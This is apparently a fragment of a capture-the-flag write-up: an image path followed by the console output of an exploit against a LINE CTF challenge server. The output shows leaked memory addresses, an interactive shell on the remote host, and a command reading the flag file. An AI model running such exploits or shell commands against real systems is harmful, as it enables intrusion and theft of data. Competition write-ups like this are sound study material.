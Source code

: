 
```
remote
[+] Opening connection to 34.146.156.91 on port 10004: Done
    -> leak: 0x7f44caa51ff0
    -> base: 0x7f44ca944000
    -> heap: 0x13b1000
    -> shm: 0x7f44cad63000
[*] Switching to interactive mode
$ cat /home/*/f*
LINECTF{An07hEr_Em41l_T0_7hE_Sh4red_1nb0x?}$
```